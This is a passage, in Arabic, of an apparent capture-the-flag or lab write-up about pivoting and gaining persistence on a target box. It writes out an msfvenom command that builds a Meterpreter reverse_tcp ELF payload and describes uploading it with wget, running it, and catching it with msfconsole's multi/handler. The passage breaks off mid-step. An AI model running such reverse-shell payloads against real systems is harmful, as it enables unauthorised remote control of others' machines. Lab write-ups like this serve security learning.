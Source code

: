 و بوووم , نجح ال Pivoting ! 

حاولت اشوف ال user.txt و ما نفع ما معي صلاحيات

![](../.gitbook/assets/image%20%2843%29.png)

و ال shell جدا سيء , فرح اسوي تكنيك بسمى 

#### persistence

رح استخدم هون ال msfvenome & msfconsole   
كرمال تعمل ال payload بالاول

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf  
```

و حاليا شغل ال msfconsole و استخدم ال multi/handler و حط ال options الخاصة فيها  
و بعدها ارفع ال payload على البوكس بال wget متل ما عملت من قبل.

```text
chmod +x shell.elf
```

و شغل ال shell.elf 

![](../.gitbook/assets/image%20%2823%29.png)

حاليا فيني استخدم خاصية shell و احصل shell اكثر اناقة 😂😂  
بعدها استخد الامر التالي :
